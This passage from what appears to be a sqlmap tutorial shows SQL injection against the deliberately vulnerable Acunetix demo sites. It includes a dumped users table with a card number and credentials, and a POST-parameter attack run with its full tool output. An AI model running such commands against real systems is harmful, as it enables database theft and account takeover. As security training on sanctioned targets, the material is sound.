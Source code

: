    ```shell
   Table: users
   [1 entry]
   +---------------------+----------------------------------+------------+------+-----------------+---------+-------+-----------+
   | cc                  | cart                             | name       | pass | email           | phone   | uname | address   |
   +---------------------+----------------------------------+------------+------+-----------------+---------+-------+-----------+
   | 1234-5678-2300-9000 | 3cc3ee99b47d7b86b90426a8e9c3dcb8 | John Smith | test | email@email.com | 2323345 | test  | 21 street |
   +---------------------+----------------------------------+------------+------+-----------------+---------+-------+-----------+

   [05:34:38] [INFO] table 'acuart.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com/dump/acuart/users.csv'
   [05:34:38] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'

   [*] ending @ 05:34:38 /2023-04-20/

   ```

   We get an entry that has uname is 'test' and pass is 'test'. Try using it, we'll login successfully.

### Post based Method

We'll using [http://testasp.vulnweb.com/Login.asp](http://testasp.vulnweb.com/Login.asp){:target="\_blank"} as demo. (This site is free to attack so you can try it)

Browse to the target site.

1. Copy HTTP Request using Brute Suite and save a file.
   ![sqlmap post](/posts/sqlmap/2.png)

2. Use `sqlmap` with `-r` flag to read file to get the information to attack in the POST request. `-p` is the parameter we are attacking.

```shell
┌──(dyl4n㉿kali)-[~]
└─$ sqlmap -r req.txt -p tfUPass
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.2#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:26:50 /2023-04-20/

[13:26:52] [INFO] parsing HTTP request from 'search-test.txt'
[13:26:52] [WARNING] the testable parameter 'tfUPass' you provided is not into the GET
[13:26:52] [WARNING] the testable parameter 'tfUPass' you provided is not into the Cookie
[13:26:52] [INFO] using '/home/testuser/sqlmap/output/testasp.vulnweb.com/session' as session file
[13:26:52] [INFO] resuming injection data from session file
[13:26:52] [WARNING] there is an injection in POST parameter 'tfUName' but you did not provided it this time
[13:26:52] [INFO] testing connection to the target url
[13:26:53] [INFO] testing if the url is stable, wait a few seconds
[13:26:55] [INFO] url is stable
[13:26:55] [WARNING] heuristic test shows that POST parameter 'tfUPass' might not be injectable
```